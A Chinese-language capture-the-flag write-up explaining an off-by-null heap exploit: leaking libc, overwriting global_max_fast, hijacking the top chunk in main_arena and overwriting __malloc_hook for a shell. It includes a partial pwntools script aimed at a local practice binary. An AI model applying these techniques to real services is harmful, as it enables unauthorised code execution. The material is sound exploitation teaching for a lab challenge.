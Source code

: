 这里有一个offbynull漏洞
常规的方法肯定是用不了了，主体的思路就是leak地址，改写maxfast值，而后劫持topchunk指针，改写mallochook，getshell
1.leak
主要的就是利用offbynull的chunkshrink，利用unsortedbin分割产生的fd，bk指针，使其落到其中一个我们可控的堆块内，打印即可
2.改写maxfast
unsorted binattack：把bk改成global_max_fast-0x10,然后重新申请，maxfast的值改成一个很大的数字，这样以后的堆块就全是fastbin范围内的了
以上都是常规操作
3.劫持topchunk
首先需要知道main_arena的结构
从main_arena起始地址开始，第一个地址内存的是flag标志位，而后的七个地址内存的是从0x20--0x80大小的fastbin指针，后面的几个地址不知道干嘛的，但是main+0x58这里存储的是topchunk指针，unsortedbin指向它是因为把它当作头部处理
当我们改写fastbin大小的时候，大于0x80的fastbin会顺序的存储在后面的地址内，这样，我们申请一个大小为c0的堆块（算上头部大小），正好就落在了topchunk的地址内，这样我们就劫持了topchunk
4.修改mallochook
常规的修改mallochook指针的方式是利用fastbinattack，这里由于我们只能申请大于0x80大小的堆块，所以这里采用将topchunk修改为mallochook-0x10，而后从topchunk里申请，值得注意的一点是，由于之前的操作原本的堆结构以及指针已经面目全非，而在我们申请一个堆块的时候检查顺序是遍历所有bin，而后才在topchunk里寻找，这里我们需要维护unsortedbin的两个指针，使其指向自己，原理与劫持topchunk类似，在此不再赘述
具体细节参考exp，注释写的还算详细
exp：

```python
from pwn import *
context.log_level = 'debug'
def add(size,note):
    p.sendlineafter(">> ","1")
    p.sendlineafter("length: ",str(size))
    p.sendafter("note:",note)

def delete(index):
    p.sendlineafter(">> ","2")
    p.sendlineafter("index: ",str(index))

def show(index):
    p.sendlineafter(">> ","3")
    p.sendlineafter("index: ",str(index))

local=1
libc=ELF('./libc.so.6')
if local:
    p=process('./offbyone2')#,env={'LD_PRELOAD':libc.path})
else:
    p=remote('127.0.0.1',10006)

add(0x88,'A'*0x88)#0
add(0x210,'B'*0x1f0+p64(0x200)+p64(0x21)+'\n')#1
add(0x80,'C'*0x80)#2
add(0x80,'D'*0x80)#3
#gdb.attach(p)
delete(1)
#gdb.attach(p)
delete(0)
#gdb.attach(p)
add(0x88,'A'*0x88)


add(0x100,'B'*0x100)#1
#gdb.attach(p)
add(0x80,'D'*0x80)#4
#gdb.attach(p)

delete(1)
#gdb.attach(p)
delete(2)
#gdb.attach(p)
```
